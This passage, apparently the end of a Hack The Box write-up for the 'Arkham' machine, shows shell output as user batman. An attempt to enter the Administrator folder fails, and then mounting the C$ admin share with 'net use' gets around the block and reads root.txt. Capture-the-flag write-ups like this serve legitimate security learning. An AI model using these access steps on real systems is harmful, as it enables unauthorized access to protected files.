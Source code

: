 Nice!

```plaintext
C:\Users\Batman\Documents>whoami
whoami
arkham\batman
```

```plaintext
C:\Users\Batman\Documents>cd ../../Administrator
cd ../../Administrator
Access is denied.
```

For some reason, we cant access the Administrator folder even as `Batman`. But we can mount the `C` drive as `Batman`:

```plaintext
C:\Users\Batman\Documents>net use H: \\10.10.10.130\C$
net use H: \\10.10.10.130\C$
The command completed successfully.
C:\Users\Batman\Documents>H:
H:\>cd Users\Administrator\Desktop
H:\Users\Administrator\Desktop>type root.txt
[...]
```

That is how we get root on Arkham.

In my opinion, user was more fun than root, but overall it was a fun box. Thanks to [MinatoTW](https://www.hackthebox.eu/home/users/profile/8308), the creator of this box.



![info](info.png)
